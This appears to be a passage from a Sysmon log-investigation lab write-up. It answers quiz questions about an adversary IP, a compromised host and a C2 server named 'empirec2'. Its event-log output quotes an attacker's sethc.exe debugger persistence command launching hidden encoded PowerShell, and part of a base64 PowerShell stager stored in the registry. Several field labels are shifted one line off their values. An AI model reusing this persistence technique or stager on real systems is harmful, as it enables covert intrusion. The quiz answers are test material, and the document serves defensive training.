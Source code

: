 ```
               Protocol: true
               Initiated: false
               SourceIsIpv6: 172.16.199.179
               SourceIp: DESKTOP-O153T4R.localdomain
               SourceHostname: 54921
               SourcePort: 0
               SourcePortName: false
               DestinationIsIpv6: 172.30.1.253
               DestinationIp: empirec2
               DestinationHostname: 80
               DestinationPort: 0
               DestinationPortName: %18
```

What is the IP of the suspected adversary in Investigation 3.1?
*172.30.1.253*

What is the hostname of the affected endpoint in Investigation 3.1?
*DESKTOP-O153T4R*

What is the hostname of the C2 server connecting to the endpoint in Investigation 3.1?
*empirec2*

```
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.1.evtx -FilterXPath '*/System/EventID=13' | fl


TimeCreated  : 2/12/2018 9:15:57 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 13
Message      : Registry value set:
               RuleName: SetValue
               EventType: 2018-02-12 09:15:57.046
               UtcTime: {b231f4ab-5a53-5a81-0000-0010c752ef01}
               ProcessGuid: 12224
               ProcessId: 0
               Image: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe\Debugger
               TargetObject: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp
               HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;
               Details: %8

TimeCreated  : 2/12/2018 9:15:57 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 13
Message      : Registry value set:
               RuleName: SetValue
               EventType: 2018-02-12 09:15:57.014
               UtcTime: {b231f4ab-5a53-5a81-0000-0010c752ef01}
               ProcessGuid: 12224
               ProcessId: 0
               Image: HKLM\SOFTWARE\Microsoft\Network\debug
               TargetObject: SQBGACgAJABQAFMAVgBlAFIAUwBJAE8ATgBUAEEAYgBMAGUALgBQAFMAVgBFAFIAUwBJAE8ATgAuAE0AYQBqAG8AUg
               AgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBFAEYAXQAuAEEAUwBTAEUAbQBiAEwAWQAuAEcAZQBUAFQAWQBwAGUAKAAnAFMAeQ
               BzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAdA
               BGAGkARQBgAEwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJw
               ArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALg
```